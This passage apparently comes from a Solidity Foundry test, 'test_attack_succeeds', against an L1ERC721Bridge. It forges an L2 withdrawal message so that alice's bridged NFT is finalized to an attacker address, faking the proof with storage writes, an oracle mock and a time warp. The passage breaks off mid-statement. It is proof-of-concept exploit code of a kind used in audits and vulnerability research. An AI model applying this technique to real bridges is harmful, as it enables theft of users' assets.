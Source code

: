```solidity
        vm.label(address(bridge), "L1ERC721Bridge");
        vm.label(address(attacker), "Attacker");

        // Mint alice a token.
        localToken.mint(alice, tokenId);

        // Approve the bridge to transfer the token.
        vm.prank(alice);
        localToken.approve(address(bridge), tokenId);
    }

    function test_attack_succeeds() public {
        // Bridge the token to L2.
        vm.prank(alice);
        bridge.bridgeERC721(address(localToken), address(remoteToken), tokenId, 1234, hex"5678");

        // Mock tx from L2.
        Types.WithdrawalTransaction memory _tx = Types.WithdrawalTransaction({
            nonce: 0,
            sender: address(L2Messenger),
            target: address(L1Messenger),
            value: 0,
            gasLimit: 100_000,
            data: abi.encodeWithSelector(
                CrossDomainMessenger.relayMessage.selector,
                0,
                otherBridge,
                address(bridge),
                0,
                50_000,
                abi.encodeWithSelector(
                    L1ERC721Bridge.finalizeBridgeERC721.selector,
                    address(localToken),
                    address(remoteToken),
                    address(attacker),
                    address(attacker),
                    tokenId,
                    hex""
                )
            )
        });
        bytes32 txHash = Hashing.hashWithdrawal(_tx);

        // Prove the tx.
        vm.store(
            address(op),
            bytes32(uint256(keccak256(abi.encode(txHash, 52))) + 1),
            bytes32(block.timestamp)
        );

        vm.mockCall(
            address(oracle),
            abi.encodeWithSelector(L2OutputOracle.getL2Output.selector, 0),
            abi.encode(Types.OutputProposal(0, uint128(block.timestamp), 0))
        );

        vm.warp(block.timestamp + 7 days + 1);

        // Expect events to be emitted.
        vm.expectEmit(true, true, true, true);
        emit ERC721BridgeFinalized(
            address(localToken),
            address(remoteToken),
```